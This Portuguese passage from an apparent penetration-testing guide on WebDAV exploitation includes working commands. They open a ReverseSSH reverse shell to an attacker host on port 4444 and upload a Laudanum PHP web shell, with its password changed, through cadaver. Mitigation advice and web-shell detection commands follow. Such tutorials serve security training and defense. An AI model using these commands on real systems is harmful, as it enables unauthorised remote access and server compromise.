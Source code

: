 ##### 5. ReverseSSH
```bash
# No servidor atacante
reversessh -l 192.168.100.10 -p 4444
# No alvo (após upload do cliente)
./reversessh -c 192.168.100.10 -p 4444
```
> Alternativa para estabelecer conexões reversas via SSH.

##### 6. Laudanum
```bash
# Copia o shell do Laudanum
cp /usr/share/webshells/laudanum/php/shell.php .
# Modifica as credenciais padrão
sed -i 's/default_password/sua_senha/g' shell.php
# Upload via WebDAV
cadaver http://192.168.100.11/dav/
dav:/dav/> put shell.php
```
> Coleção de shells web injetáveis com recursos avançados.

#### Mitigações contra Exploração WebDAV

1. **Configuração do Servidor:**
   - Desabilitar WebDAV se não for necessário
   - Restringir métodos HTTP permitidos
   - Implementar autenticação forte

2. **Filtros de Upload:**
   - Bloquear extensões perigosas (.php, .asp, etc)
   - Validar conteúdo dos arquivos
   - Implementar limites de tamanho

3. **Monitoramento:**
   - Logging de acessos WebDAV
   - Alertas para uploads suspeitos
   - Monitoramento de conexões reversas

4. **Hardening:**
   - Manter software atualizado
   - Usar WAF (Web Application Firewall)
   - Implementar políticas de segurança rigorosas

#### Exemplo Detecção de Shells Web

```bash
# Procura por shells PHP conhecidos
grep -r "shell_exec\|system\|passthru\|exec" /var/www/html/

# Monitora conexões suspeitas
netstat -antp | grep ESTABLISHED

# Verifica uploads recentes
find /var/www/html/ -type f -mtime -1
```

---


